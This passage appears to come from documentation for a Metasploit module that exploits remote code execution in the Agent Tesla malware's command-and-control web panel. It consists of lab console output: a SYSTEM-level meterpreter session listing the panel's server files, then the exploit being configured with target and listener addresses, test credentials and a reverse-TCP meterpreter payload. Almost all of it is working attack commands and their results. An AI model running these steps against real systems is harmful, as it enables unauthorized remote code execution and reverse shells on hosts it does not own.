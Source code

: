 ```
Server username: SYSTEM (0)
meterpreter > sysinfo
Computer    : DESKTOP-EMAVUN1
OS          : Windows NT DESKTOP-EMAVUN1 10.0 build 18363 (Windows 10) AMD64
Meterpreter : php/windows
meterpreter > ls
Listing: C:\wamp64\www\WebPanel\server_side\scripts
===================================================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100666/rw-rw-rw-  2244   fil   2016-09-21 18:10:39 -0500  ids-arrays.php
100666/rw-rw-rw-  2235   fil   2016-09-21 18:10:39 -0500  ids-objects.php
100666/rw-rw-rw-  2069   fil   2016-09-21 18:10:39 -0500  jsonp.php
100666/rw-rw-rw-  7959   fil   2016-09-21 18:10:40 -0500  mysql.sql
100666/rw-rw-rw-  1453   fil   2016-09-21 18:10:40 -0500  objects.php
100666/rw-rw-rw-  1957   fil   2016-09-21 18:10:40 -0500  post.php
100666/rw-rw-rw-  7921   fil   2016-09-21 18:10:40 -0500  postgres.sql
100666/rw-rw-rw-  1500   fil   2017-08-14 16:48:16 -0500  server_processing.php
100666/rw-rw-rw-  7857   fil   2016-09-21 18:10:40 -0500  sqlite.sql
100666/rw-rw-rw-  8021   fil   2016-09-21 18:10:40 -0500  sqlserver.sql
100666/rw-rw-rw-  14438  fil   2016-09-30 04:53:10 -0500  ssp.class.php

meterpreter >
```

### WebPanel2.7z on Windows 10 x64 19H2 with WAMP 3.2.2.2 x64, PHP 7.3.12, Apache 2.4.41, MariaDB 10.4.10

```
msf > use exploit/multi/http/agent_tesla_panel_rce
msf exploit(multi/http/agent_tesla_panel_rce) > set LHOST 169.254.115.5
LHOST => 169.254.115.5
msf exploit(multi/http/agent_tesla_panel_rce) > set USERNAME test
USERNAME => test
msf exploit(multi/http/agent_tesla_panel_rce) > set PASSWORD test
PASSWORD => test
msf exploit(multi/http/agent_tesla_panel_rce) > set RHOSTS 169.254.162.16
RHOSTS => 169.254.162.16
msf exploit(multi/http/agent_tesla_panel_rce) > show options

Module options (exploit/multi/http/agent_tesla_panel_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   test             no        The Agent Tesla CnC password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     169.254.162.16   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /WebPanel/       yes       The URI where the Agent Tesla CnC panel is located on the target
   USERNAME   test             no        The Agent Tesla CnC username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  169.254.115.5    yes       The listen address (an interface may be specified)
```